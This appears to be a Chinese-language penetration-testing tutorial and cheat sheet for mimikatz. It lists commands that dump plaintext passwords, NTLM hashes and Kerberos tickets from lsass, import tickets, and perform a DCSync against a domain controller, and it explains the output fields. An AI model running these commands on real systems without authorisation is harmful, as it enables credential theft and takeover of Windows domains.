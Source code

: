 ### 抓取明文密码

在windows2012以上的系统不能直接获取明文密码了，当可以搭配procdump+mimikatz获取密码。
    
    
    mimikatz # log
    mimikatz # privilege::debug
    mimikatz # sekurlsa::logonpasswords
    
    

**示例：windows server 2003**  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210128164356956.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MDQxMjAzNw==,size_16,color_FFFFFF,t_70)

**分析命令执行后的内容：**

**msv：**这项是账户对应密码的各种加密协议的密文，可以看到有LM、NTLM和SHA1加密的密文  
**tspkg,wdigest,kerberos：**这个就是账户对应的明文密码了。有的时候这三个对应的也不是全部都是一样的，需要看服务器是什么角色。  
**SSP：**是最新登录到其他RDP终端的账户和密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210128165415581.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MDQxMjAzNw==,size_16,color_FFFFFF,t_70)

### 模块

#### sekurlsa模块
    
    
    sekurlsa::logonpasswords
    
    抓取用户NTLM哈希
    sekurlsa::msv
    
    加载dmp文件，并导出其中的明文密码
    sekurlsa::minidump lsass.dmp
    sekurlsa::logonpasswords full
    
    导出lsass.exe进程中所有的票据
    sekurlsa::tickets /export
    
    

#### kerberos模块
    
    
    列出系统中的票据
    kerberos::list
    kerberos::tgt
    
    清除系统中的票据
    kerberos::purge
    
    导入票据到系统中
    kerberos::ptc 票据路径
    
    

#### lsadump模块
    
    
    在域控上执行)查看域kevin.com内指定用户root的详细信息，包括NTLM哈希等
    lsadump::dcsync /domain:kevin.com /user:root
    